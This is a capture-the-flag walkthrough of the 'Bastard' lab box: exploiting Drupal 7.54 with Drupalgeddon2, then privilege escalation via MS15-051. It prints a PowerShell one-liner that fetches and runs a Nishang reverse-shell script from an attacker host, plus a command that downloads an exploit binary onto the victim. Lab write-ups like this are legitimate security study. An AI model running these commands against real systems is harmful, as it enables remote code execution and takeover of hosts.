









# Bastard

### Machine Info


#### Nmap



##### HTTP (Port 80)

Index Page:

I tried to login with default/common credentials but I couldn't login.


`/changelog.txt`:</br>
From the changelog I can check the version of installed `Drupal`.


Public exploits for `Drupal 7.54`:


`Drupalgeddon3` requires authenticated user which means I cannot use currently as I do not have credential. I tried `Drupalgeddon2`, exploit `44449.rb`, but it didn't work. So I just searched for `Drupalgeddon2` from google and got updated version from github.

#### User Shell exploit

[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2) exploit:


<!-- powershell -ExecutionPolicy unrestricted IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:8888/Invoke-PowerShellTcp.ps1')
-->

And eventually we can get shell. To get stable and better shell, I just create another reverse shell by using [nishang](https://github.com/samratashok/nishang) Powershell script:


`nc` listener:



#### Privilege Escalation

First I just checked with [Sherlock](https://github.com/rasta-mouse/Sherlock) powershell script to check if there are available kernel exploits:

From the `Sherlock` I found one possible vulnerability in windows kernel.


##### Exploit

First just download compiled version of [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) and [netcat](https://eternallybored.org/misc/netcat/
) for reverse shell. Then upload to the victim machine and just execute.

Powershell Command to download file:
```
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.37:8888/ms15-051x64.exe", "C:\inetpub\drupal-7.54\ms15-051x64.exe")
```

Execute:


`nc` listener:


And you can get `root.txt` :)
